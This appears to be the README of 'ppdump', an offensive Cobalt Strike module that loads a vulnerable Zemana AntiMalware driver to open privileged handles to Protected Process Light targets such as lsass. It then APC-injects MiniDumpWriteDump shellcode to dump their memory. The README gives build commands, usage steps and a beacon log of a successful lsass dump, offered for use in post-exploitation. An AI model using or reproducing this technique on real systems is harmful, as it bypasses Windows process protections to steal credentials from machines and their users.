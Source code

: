 ## About

The bug that I abuse  goes to [@Dark_Puzzle](https://twitter.com/Dark_Puzzle) whom disclosed [here](http://rce4fun.blogspot.com/2018/02/malwarefox-antimalware-zam64sys.html) the privileged registration with Zemana AntiMalware. I only expanded upon this to use an additional IOCTL to open a thread with FULL_ACCESS (but still with some limitations!).

Protected Process (Light) on the latest iterations of Microsoft Windows has become the bane of most attackers - it prevents tools such as Mimikatz from obtaining a privileged handle to critical processes such as lsass, winlogon, and crss, all of which control the Microsoft kernel in various ways. As such, I studied various means of attacking the kernel and discovered one particular way which succeeded - using a stolen kernel driver to open a privileged handle the process and its underlying threads.

Using these privileged handles, I was able to successfully "APC Bomb" each individual threads until it reached an altertable state by using QueueUserAPC, and Stomping / Resuming the threads a multitude of times. 

### Build

The ppdump module can be built using `Make` and `Mingw-W64`. Simply download the make build system using your favorite package manager, as well the Mingw compiler package, and then run `make`. 

```sh 
$ make
make -f Makefile.x64
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x64.h src/zam.x64.h
cp -rf src/shellcode/payload.x64.h src/payload.x64.h
x86_64-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x64.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public'
make -f Makefile.x86
make[1]: Entering directory '/home/austin/projects/ppdump-public'
cp -rf src/drvs/zam.x86.h src/zam.x86.h
cp -rf src/shellcode/payload.x86.h src/payload.x86.h
i686-w64-mingw32-gcc -shared -s -ldbghelp -lntdll src/*.c src/ldr/*.c -o ppdump.x86.dll
make[1]: Leaving directory '/home/austin/projects/ppdump-public
$ file ppdump.x64.dll ppdump.x64.dll
```

### Usage

Firstly, load the provided Cobalt Strike Aggresor Script into your script resource / console. Afterwards, using `ppdump` command with the provided PID (Process ID) of the target process - pass `ppdump <pid>`, which will kick off the Reflective Module loading process, and then start initializing the driver. A successful run with the process ID of Lsa should result in the following.

```
beacon> ppdump 820
[ ] driver will be stored in C:\WINDOWS\TEMP\tiGr4.sys
[ ] minidump will be stored in C:\WINDOWS\TEMP\usaxb.dmp
[+] Wrote 232792 to C:\WINDOWS\TEMP\tiGr4.sys successfully
[ ] attemping to load C:\WINDOWS\TEMP\tiGr4.sys with service control manager
[ ] registered service tiGr4.sys successfully
[ ] started service tiGr4.sys successfully
[+] LoadDriver() successfully loaded the driver
[ ] Calling ZemanaRegisterProcess() to add 3616
[ ] Opening target process -> 820

 ======= ENTER THE DANGER ZONE =======
[ ] MiniDumpWriteDump Shellcode is 1025 bytes
[ ] Attemping to APC Bomb All Threads
[+] apc successfully queued for 836
[+] apc successfully queued for 848
[+] apc successfully queued for 852
[+] apc successfully queued for 864
[+] apc successfully queued for 3456
[+] apc successfully queued for 4044
[+] apc successfully queued for 344
 ======= LEAVE THE DANGER ZONE =======

[ ] deleted service tiGr4.sys successfully
```

## Bugs
**NOTE**: Please do not run multiple instances of the ppdump command - wait until one has completed before running another. This is because only one driver can be loaded at a time - so if two are loaded at the same time, the process tends to break quiet quickly. Furthermore some of the threads will lock up during the injection process.
